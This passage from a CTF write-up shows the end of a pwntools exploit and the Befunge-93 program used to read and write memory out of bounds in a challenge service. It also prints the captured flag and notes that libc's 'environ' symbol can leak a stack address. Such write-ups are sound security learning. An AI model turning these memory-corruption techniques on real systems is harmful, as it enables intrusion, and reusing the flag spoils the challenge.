 ```python
    r.interactive()
```
`bbb` is the Befunge-93 program I used to exploit the service : 
```text
>                                    v
v.g&&.g&&.g&&.g&&.g&&.g&&            <
>&&g.&&g.&&g.&&g.&&g.&&g.            v
v.g&&.g&&.g&&.g&&.g&&.g&&            <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&&*p&&&&*p&&&&*p&&&&*p&&&&*p&&&&*pv
v                                    < 
>&&&&*p&&&&*p&&&&*p&&&&*p&&&&*p&&&&*pv
v                                    < 
>&&&&*p&&&&*p&&&&*p&&&&*p&&&&*p&&&&*pv
v                                    < 
>                                    ^
```
  
flag : `TWCTF{It_1s_eMerG3nCy}`  
  
After I pass the challenge and ask a girl from HITCON CTF team, she told me that there's a symbol call `environ` in libc, which also store a stack address! And that's the moment I realized I totally forgot to search the stack address in libc while debugging the program!  
So the (way) more elegant way to solve this challenge is to leak the stack address via the `environ` symbol after we leak the libc's base address. Guess I've still got a lot to learn in the pwn area :P